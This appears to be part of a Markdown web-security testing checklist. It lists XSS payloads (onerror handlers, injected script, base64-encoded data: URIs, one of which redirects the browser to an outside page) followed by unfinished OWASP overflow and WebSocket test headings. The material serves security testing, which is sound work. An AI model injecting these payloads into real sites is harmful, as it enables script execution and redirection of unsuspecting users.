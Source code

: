 ```
<image src =q onerror=`window.parent.location = 'http://127.0.0.1:8000/index.html'`>
<image src =q onerror='javascript:alert(1223456789)'>
```

Example: Base64 XSS payload
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIEhBQ0tFRCIpOzwvc2NyaXB0Pg==
```

Insert value in HTML element with javascript:
```
document.getElementById("f_464cf370-896e-4af1-a0b1-3f4621ff0a36").value = '<script>javascript:alert(123456789)</script>';
```

### Cross Site Scripting Test

IMPORTANTE, para continuar por favor use clic derecho en este vínculo y abralo en una nueva ventana.

```
data:text/html,<script>alert('XSS example');</script>
```

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIEhBQ0tFRCIpOzwvc2NyaXB0Pg==
```

```
data:text/html;base64,PHNjcmlwdD5jb25maXJtKCJQcm9udG8gc2VyYXMgcmVkaXJlY2Npb25hZG8gcG9yIGNpYmVyc29jXzN0aW4gIik7d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vb3N2YWxkb2hkem0uZ2l0aHViLmlvL3NpdGlvLW1hbG8vIik7PC9zY3JpcHQ+Cg==
```


## Buffer overflow

### Heap Overflows Test (OWASP-BO-002)

Ensure that the application is not susceptible to any heap overflows. 

### Stack Overflows Test (OWASP-BO-003)

Ensure that the application is not susceptible to any stack overflows. 
  
### Format Strings Test (OWASP-BO-004)

Ensure that the application is not susceptible to any format string 


## WebSocket Unencrypted Communications Verification

Search for headers: Sec-WebSocket-

## WebSocket Cross-site hijacking Test
